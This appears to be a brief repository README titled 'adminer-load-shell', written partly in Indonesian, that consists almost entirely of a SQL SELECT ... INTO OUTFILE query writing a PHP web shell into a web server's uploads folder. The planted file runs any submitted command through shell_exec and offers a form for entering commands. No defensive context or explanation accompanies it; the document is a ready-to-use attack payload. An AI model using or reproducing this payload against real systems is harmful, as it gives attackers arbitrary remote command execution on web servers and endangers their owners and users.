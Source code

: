 # adminer-load-shell


Query SQL
=====================
Query SQL untuk Menulis CMD ke File
sql
Salin kode
SELECT '<?php
if (isset($_POST["submit"])) {
    $cmd = $_POST["cmd"];
    echo "<pre>" . shell_exec($cmd) . "</pre>";
}
?>

<form action="" method="post">
    <input type="text" name="cmd" placeholder="Enter command" size="50" required>
    <input type="submit" name="submit" value="Execute">
</form>' INTO OUTFILE '/var/www/html/web/uploads/cmd.php'
FIELDS TERMINATED BY '' LINES TERMINATED BY '';
